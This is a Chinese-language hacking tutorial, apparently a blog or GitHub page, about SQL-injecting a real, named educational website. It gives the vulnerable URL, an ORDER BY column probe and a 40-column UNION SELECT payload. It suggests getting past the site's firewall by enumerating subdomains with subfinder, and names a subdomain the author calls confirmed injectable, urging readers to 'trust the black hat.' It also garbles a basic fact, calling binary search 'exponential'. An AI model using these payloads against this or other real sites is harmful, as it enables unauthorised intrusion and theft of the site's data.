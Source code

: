 ## 尝试注入

这是我们需要黑入的网站，我已经帮你找好了它的注入点：

访问下面这个**url**这是我们需要攻击的目标：

```sql
https://nied.co.in/course.php?course=1
```

根据之前所学，如果想要手动黑入该网站，需要先嗅探列的数量：

```
https://nied.co.in/course.php?course=1 ' order by 40 -- -
```

根据算法的知识，我们可以使用二分法来测试列的数量，这样时间复杂度可以到达指数级别。根据本人亲测，该网站有40列。

下一步就是打开黑客条V2来进行Union查询。

```sql
https://nied.co.in/course.php?course=1 ' UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40
```

然后你就会遇到今天最幸运的事情，没错，一个防火墙 - "FireWall"！😄

<img src="https://p.ipic.vip/i0uzug.png" alt="截屏2024-11-25 00.18.21" style="zoom:25%;" />

你以为这就结束了吗，不不不，我们可以做到，相信黑帽子！对于防火墙来说，很有可能只是对特定的域名做了防火墙的防护。所以如果使用子域名来进行注入，就有可能成功。

## 使用 subfinder

打开终端，终于轮到`subfinder`登场💡：

```sql
subfinder -d nied.co.in
```

由于网站在外🕸️，速度较慢，我们等待一段时间⌛️。

![截屏2024-11-25 00.22.11](https://p.ipic.vip/ynzh23.png)

到这里，所有的问题都已经解决，该网站的数据库将向你敞开，尽情地用💉扎它吧。将原来的域名替换成这里的域名。例如，将域名换成**mail.nied.co.in**是亲测有效的注入域名：

```sql
https://mail.nied.co.in/course.php?course=1 ' UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40
```

在浏览器中输入后将会得到该网站的信息。
